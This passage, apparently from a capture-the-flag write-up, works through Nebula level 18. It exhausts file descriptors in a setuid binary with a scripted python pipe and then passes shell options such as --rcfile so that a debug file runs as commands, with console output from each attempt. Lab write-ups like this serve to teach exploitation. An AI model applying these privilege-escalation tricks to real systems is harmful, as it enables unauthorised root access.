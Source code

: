 Ah, so many file descriptors we can't open any more, not even to shared libraries.
We can close one and see how that goes.

{{< highlight console >}}
level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 -v -d /tmp/flag18/debug
./flag18: -d: invalid option
Usage:	./flag18 [GNU long option] [option] ...
	./flag18 [GNU long option] [option] script-file ...
GNU long options:
	--debug
	--debugger
	--dump-po-strings
	--dump-strings
	--help
	--init-file
	--login
	--noediting
	--noprofile
	--norc
	--posix
	--protected
	--rcfile
	--restricted
	--verbose
	--version
Shell options:
	-irsD or -c command or -O shopt_option		(invocation only)
	-abefhkmnptuvxBCHP or -o option
{{< / highlight >}}

Right, so we need to remember that we're running `sh` here, and our arguments
are being passed to it. Unfortunately `-d` and such are not valid here. 
Time to read the manual....

> **--rcfile file**
> 
> Execute commands from file instead of the system wide 
> initialization file /etc/bash.bashrc and the standard personal 
> initialization file ~/.bashrc if the shell is interactive 
> (see INVOCATION below).

Ok, well, it's worth a shot.

{{< highlight console >}}
level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 --rcfile -d /tmp/flag18/debug
./flag18: invalid option -- '-'
./flag18: invalid option -- 'r'
./flag18: invalid option -- 'c'
./flag18: invalid option -- 'f'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'l'
./flag18: invalid option -- 'e'
/tmp/flag18/debug: line 1: Starting: command not found
/tmp/flag18/debug: line 2: syntax error near unexpected token `('
/tmp/flag18/debug: line 2: `logged in successfully (without password file)'
{{< / highlight >}}
